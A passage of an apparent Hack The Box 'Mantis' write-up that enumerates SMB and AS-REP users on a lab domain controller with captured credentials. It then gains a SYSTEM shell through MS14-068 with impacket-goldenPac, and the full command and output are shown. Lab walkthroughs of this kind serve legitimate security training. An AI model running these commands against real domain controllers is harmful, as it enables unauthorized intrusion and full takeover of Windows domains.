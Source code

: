 - No `AS-REP` users

```
└─$ impacket-GetNPUsers 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```

- Nothing on `smb`
```
└─$ smbclient -L //10.10.10.52 -U james --password 'J@m3s_P@ssW0rd!'     

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
## Root
- So apparently, since this is an old box the intended path was `MS14-068`
  - https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/ms14-068
  - https://www.exploit-db.com/exploits/35474
  - For manual exploitation we can follow: https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html
  - We can exploit it using `mpacket-goldenPac`

```
└─$ impacket-goldenPac 'htb.local/james:J@m3s_P@ssW0rd!'@mantis.htb.local  -dc-ip 10.10.10.52

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file YHXtNJXn.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service hlvg on mantis.htb.local.....
[*] Starting service hlvg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
